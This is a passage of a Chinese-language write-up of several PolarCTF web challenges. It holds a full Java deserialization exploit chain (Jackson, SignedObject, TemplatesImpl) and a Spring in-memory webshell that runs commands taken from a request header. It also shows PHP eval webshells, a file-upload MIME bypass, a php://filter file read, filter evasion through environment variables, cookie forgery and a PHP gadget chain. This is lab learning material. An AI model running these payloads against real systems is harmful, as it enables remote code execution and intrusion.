        SafeObjectInputStream ois = new SafeObjectInputStream(byteArrayInputStream);
        ois.readObject();
    }

    //infer师傅的class，用于生成恶意命令执行class字节码
    public static byte[] getshortclass(String cmd) throws CannotCompileException, IOException, NotFoundException {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        byte[] bytes = clazz.toBytecode();
        return bytes;
    }
}
```



但是好像明文检查过不去

后面看了wp，说是**signObject里的序列化数据也要用utf-8 overlong**



看到SignedObjetc的getObject函数



这个content就是最终传入getObject的，私有属性，需要反射赋值



## 最终的poc

```java
package TestCode;

import SerializeChains.UTF_bypass.CustomObjectOutputStream;
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.springframework.aop.framework.AdvisedSupport;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.net.URLEncoder;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Base64;
import java.util.Vector;

public class POC {
    public static void main(String[] args) throws Exception {
        overrideJackson();
        TemplatesImpl templates = (TemplatesImpl) initEvilTemplates();
        Object proxy = getPOJONodeStableProxy(templates);


        POJONode pojoNode = new POJONode(proxy);
        //触发toString()方法
        EventListenerList eventListenerList = (EventListenerList) getEventListenerList(pojoNode);
        ByteArrayOutputStream b = new ByteArrayOutputStream();
        CustomObjectOutputStream oos = new CustomObjectOutputStream(b);
        oos.writeObject(eventListenerList);
        oos.close();

        //二次反序列化
        SignedObject signedObject = second_serialize(1);
        setFieldValue(signedObject,"content",b.toByteArray());

        //触发SignedObject#getObject方法
        POJONode pojoNode2 = new POJONode(signedObject);
        //触发toString()方法
        EventListenerList eventListenerList2 = (EventListenerList) getEventListenerList(pojoNode2);

        if(new Checker().KmpCheck(Base64.getDecoder().decode(serialize(eventListenerList2))))
        {
            System.out.println("No");
        }else {
            System.out.println( URLEncoder.encode(serialize(eventListenerList2)));
        }
        unserialize(serialize(eventListenerList2));
    }
    public static Object getEventListenerList(Object object) throws Exception{
        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();

        //从UndoManager父类CompoundEdit的edits中取出Vector对象，并将恶意类通过add添加
        Vector vector = (Vector) getFieldValue(undoManager,"edits");
        vector.add(object);

        setFieldValue(eventListenerList,"listenerList", new Object[]{Class.class, undoManager});
        return eventListenerList;
    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception{
        final Field f = getField (obj.getClass (), fieldName );
        return f.get (obj);
    }
    public static Field getField( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if (field != null)
                field.setAccessible(true);
            else if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        } catch (NoSuchFieldException e) {
            if (!clazz.getSuperclass().equals(Object.class)) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
    //二次序列化函数
    public static SignedObject second_serialize(Object o) throws Exception {
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) o, kp.getPrivate(), Signature.getInstance("DSA"));
        return signedObject;
    }
    //获取进行了动态代理的templatesImpl，保证触发getOutputProperties
    public static Object getPOJONodeStableProxy(Object templatesImpl) throws Exception{
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
        return proxyObj;
    }
    public static void overrideJackson() throws NotFoundException, CannotCompileException, IOException {
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
    }
    public static TemplatesImpl initEvilTemplates() throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        byte[] bytes = getshortclass("calc");
        byte[][] codes = {bytes};

        setFieldValue(templates, "_bytecodes", codes);
        setFieldValue(templates,"_name","a");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static String serialize(Object object) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        CustomObjectOutputStream oos = new CustomObjectOutputStream(byteArrayOutputStream);
        oos.writeObject(object);
        oos.close();
        String poc = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return poc;
    }

    //定义反序列化操作,提供base64后的字节码，进行反序列化
    public static void unserialize(String poc) throws Exception{
        byte[] bytes = Base64.getDecoder().decode(poc);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        SafeObjectInputStream ois = new SafeObjectInputStream(byteArrayInputStream);
        ois.readObject();
    }

    //infer师傅的class，用于生成恶意命令执行class字节码
    public static byte[] getshortclass(String cmd) throws CannotCompileException, IOException, NotFoundException {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        byte[] bytes = clazz.toBytecode();
        return bytes;
    }
}
```



打个内存马吧

```java
    public static byte[] genPayload() throws Exception{
        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.makeClass("A");
        if ((clazz.getDeclaredConstructors()).length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }        clazz.addConstructor(CtNewConstructor.make("public B() throws Exception {\n" +
                "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();\n" +
                "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();\n" +
                "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();\n" +
                "                String[] cmd =  new String[]{\"sh\", \"-c\", httprequest.getHeader(\"Cmd\")};\n" +
                "                byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter(\"\\\\A\").next().getBytes();\n" +
                "                httpresponse.getWriter().write(new String(result));\n" +
                "                httpresponse.getWriter().flush();\n" +
                "                httpresponse.getWriter().close();\n" +
                "        }", clazz));
        clazz.getClassFile().setMajorVersion(50);
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        return clazz.toBytecode();
    }
```



# 渗透之王

## #信息泄露+爆破+文件包含+文件上传

一个登录界面，扫目录拿到一个/www.zip和admin.php，压缩包是加密的，密码在admin.php中，是polarctf

解压后拿到一个index.php.bak文件，打开是一个密码字典，那就跑一下admin的密码



登录后有提示`非法的文件包含请求`，那打一下文件包含

```http
/polarctf/?page=php://filter/convert.base64-encode/resource=hint.php
```



一开始我也不知道为什么这里没有read参数也能读，后面看了官方手册才知道



读一下index.php

```java
<?php
        $file = $_GET['page'] ?? '';
        if ($file) {
            // Check if the file parameter is using the base64 encoding format
            if (strpos($file, 'php://filter/convert.base64-encode/resource=') === 0) {
                $encoded_content = @file_get_contents($file);
                if ($encoded_content !== false) {
                    $decoded_content = base64_decode($encoded_content);
                    echo "<pre>" . htmlspecialchars($decoded_content) . "</pre>";
                } else {
                    echo "<p>无法读取文件内容</p>";
                }
            } else {
                echo "<p>非法的文件包含请求</p>";
            }
        }
        ?>
```

好吧那这里的话就能解释为什么read不行了

上面读hint的时候提示有文件上传的口子，访问一下/polarctf/upload.php或者upload.php

这里就进行了MIME检测，改一下content-type绕过就行

```http
POST /polarctf/upload.php HTTP/1.1
Host: 3d08beb6-23be-4740-be7a-d7695ef79972.www.polarctf.com:8090
Content-Length: 313
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://3d08beb6-23be-4740-be7a-d7695ef79972.www.polarctf.com:8090
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary55y9P7nEWTYHRHy0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://3d08beb6-23be-4740-be7a-d7695ef79972.www.polarctf.com:8090/polarctf/upload.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundary55y9P7nEWTYHRHy0
Content-Disposition: form-data; name="upload_file"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundary55y9P7nEWTYHRHy0
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundary55y9P7nEWTYHRHy0--

```



# 狗黑子的变量

## #环境变量绕过

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$gou = $_GET["gou"];
$gou = str_replace(['~', '^', '_'], '', $gou);
$hei = array('Q', 'W', 'E', 'R', 'Y', 'U', 'I', 'O', 'S', 'D', 'F', 'G', 'J', 'K', 'L', 'Z', 'X', 'C', 'V', 'B', 'N', 'M', 'q', 'w', 'e', 'r', 'y', 'u', 'i', 'o', 's', 'd', 'f', 'g', 'j', 'k', 'l', 'z', 'x', 'c', 'v', 'b', 'n', 'm');


$heizi = str_ireplace($hei, '', $gou);
if ($heizi !== $gou) {
    die("heizi");
}

system($gou);
?>

```

没被过滤的字母

```php
T,P,A,H
```

哦吼，很明显了是可以用环境变量拼接绕过，但是PATH咋看

后面扫目录扫到一个admin.php路由



拿到`$PATH`的内容

```php
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

拼接出nl命令直接读出flag

```php
/?gou=${PATH:14:1}${PATH:5:1} ../*
```

# rce命令执行系统

## #RCE

本来对着官方wp搜题目的，但是他官方wp写的是RCE命令执行系统，搞半天才搜到



过滤了很多命令，但是单双引号就能绕过了，但是过滤了小数点，没法读文件

在环境变量中看到了flag，但是是假的



刚刚看到f1ag.php，不过既然是同目录下的，看看能不能访问



额其实没看懂，应该是在命令执行里面设置参数？传了个XOR_KEY=Polar发现不行，那应该是需要设置环境变量里面的参数了

```php
env XOR_KEY=Polar
```




# 你也玩铲吗

## #伪造Cookie

注册后登录，在源码中找到一段注释

```html
<!--偷偷告诉你：auth的值需要是user:admin，但它的检查逻辑可能进行了一些编码，比如：base64......-->
```

扫一下目录吧

```bash
[17:01:31] Scanning:
[17:01:47] 302 -     0B - /admin_login.php  ->  admin_login.html?error=access_denied
[17:01:55] 200 -    1KB - /index.html
[17:01:56] 200 -     0B - /login.php
[17:01:56] 200 -    2KB - /login.html
[17:01:57] 200 -    1KB - /login_admin.html
[17:02:00] 200 -     0B - /register.php
[17:02:00] 200 -    2KB - /register.html
[17:02:00] 403 -   318B - /server-status
[17:02:00] 403 -   318B - /server-status/
[17:02:03] 200 -    83B - /user.php
[17:02:03] 200 -    73B - /users.json
```

有一个/login_admin.html，但是也需要管理员账户密码，结合上面的提示，是需要设置cookie

将`user:admin`进行base64编码

```http
auth=dXNlcjphZG1pbg==
```

伪造Cookie后访问/admin_login.php就能拿到flag了

# nukaka_ser2

## #PHP反序列化

```php
<?php

class FlagReader {
    private $logfile = "/tmp/log.txt";
    protected $content = "<?php system(\$_GET['cmd']); ?>";

    public function __toString() {

        if (file_exists('/flag')) {
            return file_get_contents('/flag');
        } else {
            return "Flag file not found!";
        }
    }
}

class DataValidator {
    public static function check($input) {
        $filtered = preg_replace('/[^\w]/', '', $input);
        return strlen($filtered) > 10 ? true : false;
    }

    public function __invoke($data) {
        return self::check($data);
    }
}

class FakeDanger {
    private $buffer;
    
    public function __construct($data) {
        $this->buffer = base64_encode($data);
    }

    public function __wakeup() {
        if (rand(0, 100) > 50) {
            $this->buffer = str_rot13($this->buffer);
        }
    }
}

class VulnerableClass {
    public $logger;
    private $debugMode = false;

    public function __destruct() {
        if ($this->debugMode) {
            echo $this->logger;
        } else {
            $this->cleanup();
        }
    }

    private function cleanup() {
        if ($this->logger instanceof DataValidator) {
            $this->logger = null;
        }
    }
}


function sanitize_input($data) {
    $data = trim($data);
    return htmlspecialchars($data, ENT_QUOTES);
}

if(isset($_GET['data'])) {
    $raw = base64_decode($_GET['data']);
    if (preg_match('/^[a-zA-Z0-9\/+]+={0,2}$/', $_GET['data'])) {
        unserialize($raw); 
    }
} else {
    highlight_file(__FILE__);
}
?>
```

构造了一个`VulnerableClass::__destruct()->FlagReader::__toString()`的链子然后就读到flag了？

```php
<?php

class FlagReader {
    private $logfile;
    protected $content;

}

class VulnerableClass {
    public $logger;
    private $debugMode = true;
}

$a = new VulnerableClass();
$a -> logger = new FlagReader();
echo base64_encode(serialize($a));
```

# 狗黑子的隐藏

## #RCE

啥都没有，抓包后发现有一个参数cmd，直接打命令执行就行了



好吧，一个假的flag，后面命令绕不过去，但是有写文件的权限，写个马子进去

```php
cmd=echo '<?php @eval($_POST['cmd']);?>' >> shell.php
```



后面连一下马子就可以了

# 真假ECR

## #RCE绕过

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
header('content-type:text/html;charset=utf-8');

if (!isset($_GET['cmd'])) {  
    echo("审题啊！.");  
}  
$cmd=$_GET['cmd'];

    if (preg_match("/ls|dir|flag|type|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) 
    {
        echo("想要什么直接访问试试呢");
        exit;
    }
     system($cmd);
?>
审题啊！.
```

直接转义绕过就行了


